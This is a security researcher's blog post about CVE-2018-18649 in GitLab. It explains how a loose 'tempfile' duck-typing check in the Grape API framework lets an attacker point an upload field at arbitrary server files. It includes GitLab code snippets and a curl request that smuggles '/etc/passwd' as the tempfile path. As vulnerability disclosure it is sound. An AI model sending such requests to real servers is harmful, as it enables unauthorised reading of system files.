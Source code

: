 ```yaml
---
layout: post
title:  "Second bite on GitLab, and some interesting Ruby functions/features"
date:   2018-12-12 15:34:11 +0800
categories: jekyll update
---
```


# Brief
It's been a while since I wrote something in this blog last time. I just posted
something about several bugs I found several months ago in GitHub Pages and
GitHub Enterprise. Go check them out if you are interested in some more examples
of incorrect path sanitizing and symbolic links in real world softwares!

But today I'm not going to talk about more of those. I'm going introduce some
recent findings about Ruby and how did a find an RCE bug in GitLab.
([CVE-2018-18649](https://about.gitlab.com/2018/10/29/security-release-gitlab-11-dot-4-dot-3-released/))

# Ruby and GitLab
I wrote Ruby a lot when I was still in university. I used Ruby almost everywhere
I could use and even once submitted an assignment of my Operating System course
about threads and processes. However, after I didn't have much time to continue
on the cool stuff with Ruby and focused on something else. :(

Recently, the experiences during the code auditing of GitLab, GitHub and several
other cool Ruby projects recalls me the best days of learning Ruby and feels me
like I'm designing the software and refining the code snippets with the developers.

As many people say, Ruby is an extremely flexible language and this flexibility
brings us elegant implementations, the freedom of creating DSL and etc. However
the flexibility also brings unnoticeable bugs. Here I'm going to show some code
snippets existed in GitLab.

## Duck Typing

> If it walks like a duck, swims like a duck, and quacks like a duck, then it probably is a duck.

GitLab uses [Grape](https://github.com/ruby-grape/grape) to create their APIs,
for example, the following API is used to upload attachments to the wiki of a
project.

``` ruby
        params do
          requires :file, type: File, desc: 'The attachment file to be uploaded'
          optional :branch, type: String, desc: 'The name of the branch'
        end
        post ":id/wikis/attachments", requirements: API::PROJECT_ENDPOINT_REQUIREMENTS do
          authorize! :create_wiki, user_project

          result = ::Wikis::CreateAttachmentService.new(user_project,
                                                        current_user,
                                                        commit_params(declared_params(include_missing: false))).execute
        ...
        end
```

Normally, Rack intercepts file uploading requests and sets `params[key][:tempfile]`
and `params[key][:filename]` to the temporary path of the uploaded file and the
original filename. So GitLab reads the content of the temp file and saves it
afterwards.

``` ruby
        def commit_params(attrs)
          {
            file_name: attrs[:file][:filename],
            file_content: File.read(attrs[:file][:tempfile]),
            branch_name: attrs[:branch]
          }
        end
```

At the same time, grape has a simple validation for `type: File`:

``` ruby
        def value_coerced?(value)
          # Rack::Request creates a Hash with filename,
          # content type and an IO object. Do a bit of basic
          # duck-typing.
          value.is_a?(::Hash) && value.key?(:tempfile)
        end
```

Well, it's not really duck-typing here. But the comments of the developer
reminds me this and it's surely thinking about duck-typing when it was
implementing this function.

Unfortunately, only duck quacking is not enough. A key named `:tempfile` exists
in the `params[:file]` hash doesn't really mean `params[:file]` is really a
uploaded file as expected.

Sending a simple POST request, we can easily smuggle our duck-like bird to pass this
duck typing check by setting `file[tempfile]` in the form data.

``` shell
curl -d "file[tempfile]=/etc/passwd&file[filename]=123" http://host:port
```

So, our bird can pass the inspection and tell us anything within a GitLab instance.

![2018-12-12-CVE-2018-18649-Gitlab-RCE_1](/assets/2018-12-12-CVE-2018-18649-Gitlab-RCE_1.png)

## TBD
I'll leave the command execution part to my next post, where I'll introduce
another interesting flexibility in Ruby.
